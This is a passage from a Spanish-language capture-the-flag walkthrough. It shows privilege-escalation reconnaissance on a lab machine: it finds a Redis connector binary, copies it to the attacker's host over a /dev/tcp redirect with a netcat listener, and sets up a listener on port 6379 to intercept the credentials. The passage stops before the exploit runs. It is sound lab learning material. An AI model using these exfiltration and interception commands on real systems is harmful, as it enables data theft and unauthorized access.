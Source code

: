 ## Escalada de Privilegios
Si buscamos nuevamente por archivos del nuevo grupo en el que estamos, encontramos uno.
```bash
dan_smith@shared:/$ find / -group sysadmin 2>/dev/null 
/usr/local/bin/redis_connector_dev
dan_smith@shared:/$ 
```
Lo ejecutamos y vemos que se conecta a redis.
```bash
dan_smith@shared:/$ /usr/local/bin/redis_connector_dev 
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:4974
run_id:73bf38fb1b5660f7627ed2cb22636e02821f6afa
tcp_port:6379
uptime_in_seconds:37
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:6736143
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
dan_smith@shared:/$ 
```
por lo que posiblemente se este autenticando, podemos intetar conectarnos con redis-cli para comprobar si nos pide autenticacion.
```bash
dan_smith@shared:/$ redis-cli 
127.0.0.1:6379> INFO
NOAUTH Authentication required.
127.0.0.1:6379> 
```
Nos pide que estemos autenticados por lo que el script de arriba se debe estar autenticandose, me voy a transferir este archivo a mi maquina.
```bash
dan_smith@shared:/$ cat /usr/local/bin/redis_connector_dev > /dev/tcp/10.10.14.14/443 0>&1
```
Recibo el archivo
```bash
❯ nc -lvnp 443 > redisc_conector_dev
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.172] 46438
```
Con nc nos podemos poner en escucha por el puerto de redis 6379 y ejecutar el script para ver que es lo que hace.
```bash
❯ nc -lvnp 6379
```
Le damos permisos de ejecuccion y lo ejecutamos.
```bash
❯ chmod +x redisc_conector_dev
```